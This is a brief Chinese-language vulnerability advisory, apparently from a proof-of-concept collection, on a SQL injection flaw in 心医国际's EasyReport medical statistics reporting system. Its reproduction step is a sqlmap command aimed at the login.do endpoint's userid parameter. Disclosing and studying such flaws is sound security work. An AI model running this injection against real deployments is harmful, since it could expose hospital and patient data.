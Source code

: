 # 心医国际医技统计报表系统存在SQL注入漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际是中国专业的医疗云应用解决方案提供商，铺建并运营全国领先的智能医疗云平台，依托十年的数据积累和业务实践，持续创新智能医疗场景应用。业务服务覆盖诊疗、教学、科研、管理等多维度，助力政府、医院及产业合作伙伴，打造线上线下高效协同的智慧医疗健康服务体系，目前已建成覆盖全国31个省，联结2万余家医疗机构的智能医疗云平台，助力建设并服务青海、河南、陕西、山西、贵州、新疆、江西、广西、甘肃9大省级远程医疗平台，服务通达80%全国三甲级医院;成功建设并服务全国300余个省、市、县及专科医联体。心心医国际医技统计报表系统存在SQL注入漏洞，攻击者可通过该漏洞获取系统敏感信息  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际医技统计报表</font>![1714374819079-557cb0bb-eb99-43fd-bdbe-e10c186b405f.png](./img/S4nzAYLJAV3ALS5_/1714374819079-557cb0bb-eb99-43fd-bdbe-e10c186b405f-912662.png)<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、漏洞复现</font>**

```plain
python3 sqlmap.py -u "http://127.0.0.1/EasyReport/login.do?method=handleRequestRole&t=731&userid=admin&_=1714374538731" -p userid
```

![1714374865701-7324443d-3be6-4063-ad61-a052c6b455ee.png](./img/S4nzAYLJAV3ALS5_/1714374865701-7324443d-3be6-4063-ad61-a052c6b455ee-234969.png)





> 更新: 2024-06-17 09:27:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cvggxfx71i5i1y2x>